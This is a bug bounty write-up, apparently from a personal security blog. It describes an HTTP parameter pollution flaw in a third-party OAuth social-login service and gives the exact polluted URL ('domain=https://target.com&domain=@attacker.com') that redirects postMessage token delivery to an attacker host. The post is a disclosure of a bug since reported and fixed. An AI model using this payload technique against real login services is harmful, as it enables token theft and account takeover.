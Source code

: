 ```yaml
---
title: How one Parameter Pollution bug left many apps vulnerable to Account Takeover
date: 2024-02-01 04:00:00 +0100
categories: [Write-ups,OAuth]
tags: [parameter_pollution,oauth,postmessage]     # TAG names should always be lowercase
---
```


## INTRO
<p align="justify">While testing a private bug bounty program that enables users to log in using their social media accounts, I noticed that most of the OAuth flow happened on a completely different domain that didn’t belong to the target. Let’s call this domain “redacted.com”.</p>

<p align="justify">I did a quick search and found out that the “redacted.com” domain belongs to a cloud-based identity management service. This service offers its customers the ability to add a social login feature to their applications, among other things. I also saw that they have a Vulnerable Disclosure Program so I decided to take a closer look at the social login flow. If you’ve read my <a href="/posts/blog1/">previous blog post</a>, you know that I like testing for OAuth bugs.</p>

<p align="justify">I ended up finding a <b>HTTP parameter pollution</b> bug that allowed me to leak authentication tokens, leaving every app using the service vulnerable to account takeover attacks.</p>

## THE SOCIAL LOGIN FLOW
<p align="justify">When a user clicks on “Login with Google” on the target app I was initially testing, a new window opens and makes a request to <b>https://redacted.com/social-login</b>. The redacted.com domain then initiates the OAuth flow with Google and finally sends the user’s authentication token, along with other user information, back to the target app via a postMessage function. The target app receives this data and uses it to log in the user.</p>

<p align="justify">The request to https://redacted.com/social-login includes a “<b>domain</b>” parameter that contains a URL of the target application. Redacted.com verifies on the backend whether the provided URL matches a whitelisted URL. If you change the value to another domain (for example, “https://attacker.com”), you will receive an error message saying that it is an invalid domain and the login flow will be terminated.</p>

<p align="justify">If the URL passes the check, the OAuth flow is initiated, and redacted.com uses the domain value to set the postMessage’s targetOrigin parameter and send the user’s auth token to the target application. The page responsible for sending the token contained a script with the following code (I simplified the actual code for the blog post):</p>

```
var reqDomain = “https://target.com”; //the domain value is reflected here
var token = “login_token_here”;

opener.postMessage(token, reqDomain);
```

<p align="justify">This check is necessary because it prevents an attacker from simply modifying the domain parameter to "https://attacker.com" and having redacted.com send a victim’s authentication token and user data to this domain. However, it was flawed.</p>

## THE VULNERABILITY
<p align="justify">I tried a few common techniques to bypass this type of check, like setting the domain to ‘target.com.attacker.com’, ‘target.com@attacker.com’, and other variations but I still got the error message. Eventually, I found a way to bypass the check and send the data to an arbitrary domain using a <b>HTTP parameter pollution</b> attack.</p>

<p align="justify">A parameter pollution attack is a type of attack that is carried out by sending multiple parameters with the same name but with different values in a URL. For example, consider the following query string: <br><b>?domain=target.com&domain=attacker.com</b>

<p align="justify">In this example, there are two “domain” parameters, but each one has a different value. Different web servers behave in different ways when receiving multiple parameters with the same name. Some will take the first occurrence (“target.com”), some will take the last one (“attacker.com”), and some will read them as an array. This can sometimes cause unexpected behaviors that can be exploited by attackers.</p>

<p align="justify">To bypass the check on redacted.com, I added a second "domain" parameter with a different value:<br>
https://redacted.com/social-login?<b>domain</b>=https://target.com&<b>domain</b>=https://attacker.com</p>

<p align="justify">This time, the request did not cause an error and the response contained the following code:</p>

```
var reqDomain = “https://target.com,https://attacker.com”;
var token = “login_token_here”;

opener.postMessage(token, reqDomain);
``` 

<p align="justify">As you can see, the reqDomain variable now has the <b>two URLs</b> separated by a comma. That’s a good sign (for us at least)! I can only guess what’s causing this bypass since I don’t have access to the backend code but it’s clear that only the first domain value is validated while the second malicious domain is ignored. However, both values are returned as a comma-separated string. In this case it only worked when the first domain value was set to a valid whitelisted URL. If you switched the values, you would get an error message again.</p>

<p align="justify">Cool, we found a way to bypass the URL validation and get an unintended result. So how can we exploit this now? Our goal is to leak the authentication token, and to do so, we need to manipulate the postMessage targetOrigin parameter to send the message to a domain under our control.</p>

<p align="justify">At this point I wondered what would happen if we set the second domain parameter to "<b>@attacker.com</b>". If that resulted in a URL like "https://target.com,@attacker.com", it would technically be a valid URL, since the part before "@" would be interpreted as a username/password and the part after "@" would be the URL's domain.</p>

![url-structure](/assets/images/url-struct.jpg)

<p align="justify">Sure enough, this actually worked! Sending a request to <b>https://redacted.com/social-login?domain=https://target.com&domain=@attacker.com</b> resulted in the following response, enabling attacker.com to receive a message containing the authentication token:</p>

```
var reqDomain = “https://target.com,@attacker.com”;
var token = “login_token_here”;

opener.postMessage(token, reqDomain); //sends token to attacker.com
```

## EXPLOITATION

<p align="justify">To exploit this vulnerability, an attacker can trick a victim into initiating the OAuth flow from their malicious domain by opening a new window and requesting the URL with the polluted parameters.
Once redacted.com receives the authentication token, it will send it to the attacker's domain via the postMessage() function. The attacker can then use this leaked token to gain unauthorized access to the victim's account.</p>

<p align="justify">If the victim has previously authorized Google to share their data/tokens with redacted.com, the token will be sent automatically to the attacker without needing further user interaction.</p>

<p align="justify">I don't know the exact number of apps that use this third-party service for their social login feature, but every app that did was vulnerable to account takeovers because of this basic but impactful bug.</p>

## CONCLUSION
<p align="justify">HTTP Parameter Pollution is a simple bug type, but it can have a big security impact. I’ve used it a few times before to bypass similar checks, so it’s definitely a good idea to keep it in your bag of tricks.</p>

<p align="justify">I reported the bug to the third-party service through their Vulnerable Disclosure Program and it is now fixed. However, I didn’t report the bug to the private bug bounty program I was testing. Mainly because I didn't want them to close my report as ‘Informative’ or ‘N/A’ since the vulnerability was out of their control. I kind of regret not reporting it now, but at the time, I guess I cared more about my platform stats than getting a potential bounty. What would you have done in this situation?</p>

<br>
<p align="justify">To wrap up, I'm also including a list of helpful resources for those of you who want to learn more about HTTP Parameter Pollution, OAuth and OAuth vulnerabilities.</p>

- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution
- https://book.hacktricks.xyz/pentesting-web/parameter-pollution

<br>

- https://developer.okta.com/blog/2017/06/21/what-the-heck-is-oauth
- https://portswigger.net/web-security/oauth
- https://www.oauth.com/
- https://www.rfc-editor.org/rfc/rfc6749

<br>

- https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
- https://ninetyn1ne.github.io/2022-02-21-oauth-postmessage-misconfig/
- https://ysamm.com/?p=763
- https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover
- https://0xn3va.gitbook.io/cheat-sheets/web-application/oauth-2.0-vulnerabilities
- https://blog.securityinnovation.com/pentesters-guide-to-evaluating-oauth-2.0 
- https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com 
- https://blog.dixitaditya.com/oauth-account-takeover 
